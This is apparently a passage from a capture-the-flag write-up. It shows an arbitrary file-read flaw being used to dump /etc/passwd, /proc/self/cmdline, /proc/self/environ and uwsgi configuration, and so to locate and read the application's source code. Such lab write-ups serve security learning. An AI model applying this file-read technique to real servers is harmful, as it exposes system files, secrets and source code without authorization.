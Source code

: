     _apt:x:100:65534::/nonexistent:/bin/false
    nginx:x:101:102:nginx user,,,:/nonexistent:/bin/false
    messagebus:x:102:103::/var/run/dbus:/bin/false
    ➜  dump

we able to read the filesystem, now the problem is to read source code of the application, after a while i found that able to read from `/proc/` path so i embed `/proc/self/cmdline` and i found the command used to run the program with the parameter is `/usr/local/bin/uwsgi --ini /etc/uwsgi/uwsgi.ini`  try to read `/etc/uwsgi/uwsgi.ini` to find the application path without any luck.

and after i check the environment here  `/proc/self/environment`  i found there is another configuration file `/app/uwsgi.ini`

    NGINX_WORKER_PROCESSES=1
    UWSGI_CHEAPER=2
    NGINX_MAX_UPLOAD=0
    SUPERVISOR_GROUP_NAME=uwsgi
    PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    HOME=/root
    UWSGI_PROCESSES=16
    LANG=C.UTF-8
    SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock
    PYTHON_VERSION=3.7.2
    SHLVL=0
    PYTHON_PIP_VERSION=19.0.1
    SUPERVISOR_ENABLED=1
    NJS_VERSION=1.15.8.0.2.7-1~stretch
    UWSGI_INI=/app/uwsgi.ini
    NGINX_VERSION=1.15.8-1~stretch
    STATIC_PATH=/app/static
    GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
    PYTHONPATH=/app
    STATIC_URL=/static
    SUPERVISOR_PROCESS_NAME=uwsgi
    FLAG=nice try
    LISTEN_PORT=80
    HOSTNAME=593f273e8b3e
    PWD=/app

Reading `/app/uwsgi.ini` give information about the module name so we can read `/app/main.py` since we already know the path is `/app` from `/proc/self/environ`

    [uwsgi]
    module = main
    callable = app
    #listen = 16384
    lazy-apps = true
    master = true
    processes = 100
    max-requests = 1000
    #logto = /var/log/uwsgi.log
    harakiri = 45

reading `/app/main.py` give us the application code.
